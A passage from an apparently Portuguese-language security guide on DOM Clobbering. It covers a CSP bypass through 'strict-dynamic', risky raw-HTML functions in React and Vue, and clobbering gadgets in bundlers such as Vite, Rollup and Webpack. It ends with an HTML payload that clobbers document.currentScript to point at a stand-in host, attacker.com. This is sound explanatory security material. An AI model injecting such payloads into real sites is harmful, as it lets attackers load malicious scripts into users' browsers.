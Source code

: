 #### Estudo de Caso de *Bypass* de CSP

Um cenário onde a CSP pode ser contornada envolve o uso da diretiva `strict-dynamic`. Uma CSP como `script-src 'nonce-RANDOM' 'strict-dynamic'` é considerada uma prática moderna e segura. Ela permite que um *script* inicial confiável (autenticado com um *nonce*) carregue dinamicamente outros *scripts*, que herdam essa confiança.

No entanto, se um ataque de DOM Clobbering puder manipular os dados que esse *script* confiável usa para determinar a URL do próximo *script* a ser carregado, a proteção da CSP é efetivamente contornada. O *script* confiável, agindo de acordo com as regras da CSP, acaba carregando um *script* malicioso. O DOM Clobbering atua como o elo fraco na cadeia de confiança que a `strict-dynamic` tenta estabelecer.

### Seção 4.4: Considerações sobre *Frameworks* Modernos (React, Vue, Angular)

*Frameworks* de JavaScript modernos como React, Vue e Angular mudaram a forma como os desenvolvedores interagem com o DOM, o que tem implicações para a segurança contra o DOM Clobbering.

#### Proteção Embutida e Pontos de Perigo

Em geral, esses *frameworks* oferecem uma camada de proteção inerente. Eles operam sobre um *Virtual DOM* e, por padrão, escapam ou tratam como texto quaisquer dados dinâmicos inseridos em *bindings* de atributos. Isso torna a injeção de HTML arbitrário que poderia levar ao *clobbering* muito mais difícil.

O perigo ressurge quando os desenvolvedores optam por contornar esses mecanismos de segurança para renderizar HTML bruto. Funções como `dangerouslySetInnerHTML` no React ou a diretiva `v-html` no Vue são pontos de entrada de alto risco. O HTML passado para essas funções não é processado ou sanitizado pelo *framework*, sendo inserido diretamente no DOM. Se essa entrada vier de uma fonte não confiável, ela pode introduzir vetores de *clobbering* na aplicação.

#### Vulnerabilidades no Ecossistema da *Toolchain*

Uma descoberta mais recente e preocupante é que a superfície de ataque do DOM Clobbering está se expandindo para além do código da aplicação e atingindo a *toolchain* de desenvolvimento. Ferramentas de *build* populares como Vite, Rollup e Webpack foram encontradas com vulnerabilidades que introduzem *gadgets* de DOM Clobbering no código final empacotado (*bundled*).

Um padrão vulnerável comum nessas ferramentas envolve o uso de `document.currentScript.src` para resolver caminhos relativos de *assets* (como imagens, CSS ou outros *chunks* de JS) em tempo de execução. O código gerado pelo *bundler* pode se parecer com:

```javascript
// Código gerado pelo bundler para carregar um asset
var baseUrl = new URL('.', document.currentScript.src);
var assetUrl = new URL('assets/my-image.png', baseUrl);
```

Um invasor que possa injetar HTML na página (mesmo sem *scripts*) pode *clobber* a propriedade `document.currentScript`. O *payload* seria:

```html
<img name="currentScript" src="https://attacker.com/">
```
